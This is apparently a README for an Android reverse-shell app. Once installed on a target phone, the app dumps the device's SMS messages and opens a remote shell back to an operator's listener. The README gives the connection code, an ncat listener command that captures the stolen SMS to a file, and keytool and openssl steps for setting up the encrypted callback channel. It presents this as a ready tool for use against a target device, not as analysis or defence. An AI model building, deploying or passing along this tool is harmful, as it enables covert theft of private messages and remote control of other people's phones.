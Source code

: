 Android Reverse Shell
===================
Ian Cohee 
---------------------

A small, very basic reverse shell for the Android mobile operating system. The code can be compiled into an APK package, that must be installed
on the target device. The application will dump the SMS contents of the device inbox, outbox, and sent mail, then drop into the shell. The resulting shell will be unprivileged, unless the target phone is rooted, then the command "su" can be used. In that case, the user still needs to manually give the application permission to "su" to UID 0. 

Secured vs. Unsecured Shell
--------------------------
By default, the connection is made using SSL encryption, provided by the Listener's keystore. The Certificate for the listener's private key has been imported to the Android application's TrustStore, located in /res/raw/android.truststore.
If you want to create your own SSL keypair, you'll need to import the certificate manually.

Secure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "true");


Insecure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "false");

Listener (default: secured)
--------
I'm providing a Listener written in Java, that uses a KeyStore containing the private key that the Android Reverse Shell will accept. The BouncyCastle jar needs to be in the classpath of the listener, as well as two command-line arguments: 1) Path to the keystore (also supplied in this repository, under 'Crypto') and 2) the port to listen on (7777 by default).

	java -classpath /path/to/bcprov-jdk15on-146.jar: Listener /path/to/javaserver.keystore 7777

Listener (unsecured)
--------
Still working on that (I'll have it when I get SSL or Symmetric key encryption added) in the mean time, a simple netcat-like listener works. I prefer to use Ncat, of the Nmap project. Since the application dumps SMS, I like to pipe them to `tee` to capture the results. The Listener will have logging, when I get to it. 

    ncat 192.168.2.3 7777 | tee server.out

Mini-tutorials
==============

Generating a KeyStore
-----------------------
    keytool -genkey -keystore server.keystore -alias android -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Getting Android to accpet the KeyStore (TrustStore)
---------------------------------------------------
Step 1: Export public key from KeyStore into a `.crt` file. In this case the key's alias is 'android' and the resulting certificate will be 'android.crt'

	keytool -export -keystore server.keystore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Step 2: Import `.crt` in to the Android's TrustStore, under the alias 'android'.

	keytool -import -keystore android.truststore -alias android -file android.crt -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider	

Generating X509 Certificate (untested)
--------------------------------------
This file will contain the both the private key, and the certificate into a file called `cert.pem`. It might be possible to use `ncat` with this cert, but I had issues keeping the connection alive using `ncat` as the listener. The preferred method should be to use the AndroidRSListener, written in Java. 
    
    openssl req -newkey rsa:2048 -nodes -days 3650 -x509 -keyout cert.pem -out cert.pem

Then extract the everything between the `-----BEGIN_CERTIFICATE-----` and `-----END_CERTIFICATE-----` (inclusively) into a new file. Now This file needs to be added to the trust store that the application uses. 

Importing Certificate into TrustStore
-------------------------------------
    keytool -importcert -trustcacerts -keystore android.truststore -file cert.pem -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider 

Adding Bouncy Castle to java.security File, statically
------------------------------------------------------
Locate the correct security file, mine was a symlink in /usr

    locate java.security

Add an entry, where X is the next ordinal number to the java.security file
    
    security.provider.X=org.bouncycastle.jce.provider.BouncyCastleProvider
